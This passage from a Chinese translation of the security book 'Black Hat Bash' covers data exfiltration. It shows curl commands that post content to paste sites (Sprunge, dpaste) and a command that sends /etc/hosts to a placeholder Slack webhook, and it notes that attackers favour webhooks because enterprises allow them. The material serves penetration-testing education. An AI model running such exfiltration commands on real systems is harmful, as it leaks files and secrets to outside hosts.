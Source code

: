 ```
$ **echo "Black Hat Bash" | curl -F 'sprunge=<-' http:****`//my-custom-sprunge-server.local`**
http:`//my-custom-sprunge-server.local/7gWETD`

$ **curl http:****`//my-custom-sprunge-server.local/7gWETD`**
Black Hat Bash 
```

列表 12-31：将内容上传到 Sprunge 然后获取

dpaste 网站（*[`dpaste.com`](https://dpaste.com)*)允许用户通过其 API 上传内容。其语法与 Sprunge 几乎相同：

```
$ **echo "Black Hat Bash" | curl -F "content=<-" https://dpaste.com/api/v2/**
```

命令应该输出一个类似于*https://dpaste.com/AADSCMQ4W*的 URL。要以原始文本形式获取上传的内容，只需在 URL 后添加*.txt*，像这样：*https://dpaste.com/AADSCMQ4W.txt*。

### Slack Webhooks

*Webhook* 提供了一种方式，当特定事件发生时，一个系统可以向另一个系统发送实时数据。简而言之，它充当服务之间的通知机制。像 Slack、Discord、Telegram 和 Microsoft Teams 这样的流行应用程序提供 webhook，供其他应用程序向它们发送消息。然后，这些消息会出现在特定的频道中。

渗透测试人员可以使用 Slack webhook 接收有关有趣事件的通知，比如发现新漏洞。攻击者也利用 webhook 作为数据外泄端点，因为企业环境通常允许像 Slack 或 Microsoft Teams 这样的消息系统。

例如，要通过 Slack webhook 发送*/etc/hosts*文件的内容，您可能会写类似于列表 12-32 的内容。

```
$ **curl -X POST -H 'Content-type: application/json' -d "{\"text\":\"$(cat**
**/etc/hosts)\"}" https://hooks.slack.com/services/some/hook** 
```

列表 12-32：通过 Slack webhook 外泄文件内容

在 Slack 上，这些信息可能如下所示，见图 12-2。

![](img/pg303.jpg)

图 12-2：使用 bash 发送的 Slack webhook 消息

如您所见，webhook 本质上只是 HTTP 端点，当数据发送到它们时会触发某个动作（在这种情况下，是将数据发布到一个频道）。与我们之前讨论的文本存储站点相比，它们的母域名（如*slack.com*和*discord.com*）更不容易被封锁。
